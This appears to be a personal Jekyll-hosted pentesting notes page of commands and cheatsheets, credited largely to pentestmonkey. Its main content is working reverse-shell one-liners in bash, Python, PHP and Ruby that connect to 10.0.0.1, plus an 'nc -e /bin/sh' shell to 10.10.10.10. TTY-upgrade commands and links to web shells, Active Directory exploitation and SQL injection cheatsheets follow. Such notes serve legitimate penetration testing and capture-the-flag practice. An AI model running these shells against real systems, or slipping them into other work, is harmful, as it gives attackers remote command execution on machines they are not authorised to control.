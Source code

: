 ```yaml
---
layout: single
author_profile: true
permalink: /notes/
toc: true
title: Notes and Cheatsheets
toc_label: "Contents"
toc_icon: "fab fa-fw fa-th-list"
---
```


## Intro

This is a collection of commands and cheatsheets that I use on a regular basis, the original locations as to where these commands came from will be linked along side the commands. Again, these are not my creations, this is just a note of tools and commands that I have frequently used and that I think are useful. 

## Bash Prompt
[Here is a copy of my bash prompt](/bashrc)

## Shells
### Reverse Shells

{% highlight bash %}
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
{% endhighlight %}

{% highlight python %}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

{% highlight php %}
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}

{% highlight ruby %}
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}

[PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

[Perl Reverse Shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Credits for all of these shells goes to [pentestmonkey](http://pentestmonkey.net/)

### Web Shells

[p0wny@shell:~#](https://github.com/flozz/p0wny-shell) - My absolute favorite webshell

{% highlight php %}

{% endhighlight %}

### Interactive TTY Spawning

{% highlight bash linenos %}
nc -e /bin/sh 10.10.10.10 9001
{% endhighlight %}

{% highlight python linenos %}
python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

`Ctrl + Z`

{% highlight bash linenos %}
stty raw -echo && fg && reset
{% endhighlight %}

{% highlight bash linenos %}
export SHELL=bash
export TERM=tmux
stty rows 48 columns 127
{% endhighlight %}

## AD 

This [GitHub Page](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) by [S1ckB0y1337](https://github.com/S1ckB0y1337) is fantastic.

## SQLi

[MySQL Injection Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) - [pentestmonkey](http://pentestmonkey.net/)

[PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) - [PortSwigger](https://portswigger.net/)

[w3schools SQLi Explanation](https://www.w3schools.com/sql/sql_injection.asp)